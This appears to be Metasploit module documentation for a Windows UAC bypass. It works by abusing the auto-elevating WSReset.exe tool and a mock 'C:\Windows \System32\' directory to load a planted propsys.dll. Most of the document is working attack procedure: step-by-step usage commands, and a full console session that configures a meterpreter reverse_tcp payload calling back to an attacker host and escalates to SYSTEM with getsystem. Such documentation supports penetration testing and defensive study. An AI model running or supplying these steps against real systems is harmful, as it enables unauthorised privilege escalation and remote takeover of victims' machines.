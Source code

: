 ## Intro

This module exploits a flaw in the WSReset.exe Windows Store Reset Tool. The tool
is run with the "autoElevate" property set to true, however it can be moved to
a new Windows directory containing a space (C:\Windows \System32\) where, upon
execution, it will load our payload dll (propsys.dll).

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_windows_store`.
1. Set the `PAYLOAD` and configure it correctly, making sure the architecture is correct.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenario

### Windows 10.0.17134.885 x64

```
msf5 exploit(multi/handler) > use exploit/windows/local/bypassuac_windows_store
msf5 exploit(windows/local/bypassuac_windows_store) > set SESSION 1
SESSION => 1
msf5 exploit(windows/local/bypassuac_windows_store) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/bypassuac_windows_store) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/bypassuac_windows_store) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(windows/local/bypassuac_windows_store) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Creating directory 'C:\Windows \'...
[*] Creating directory 'C:\Windows \System32\'...
[*] Creating payload 'C:\Windows \System32\propsys.dll'...
[*] Executing WSReset.exe...
[!] This exploit requires manual cleanup of the 'C:\Windows \' and 'C:\Windows \System32\' directories!
[*] Sending stage (206403 bytes) to 192.168.56.3
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.3:49803) at 2019-08-24 13:20:11 +0800

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter >
```
